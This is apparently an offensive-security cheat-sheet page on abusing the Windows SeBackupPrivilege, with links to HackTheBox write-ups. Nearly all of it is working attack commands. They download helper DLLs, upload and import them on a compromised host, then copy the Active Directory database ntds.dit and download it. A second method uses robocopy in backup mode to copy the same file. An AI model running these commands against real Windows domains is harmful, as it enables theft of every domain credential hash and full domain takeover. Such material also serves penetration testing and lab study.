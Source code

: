 # SeBackupPrivilege




## SeBackupPrivilege

* [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)
* [https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#priv-svc_backup--administrator](https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#priv-svc_backup--administrator)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```




## robocopy

* [https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#read-as-system](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#read-as-system)

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```
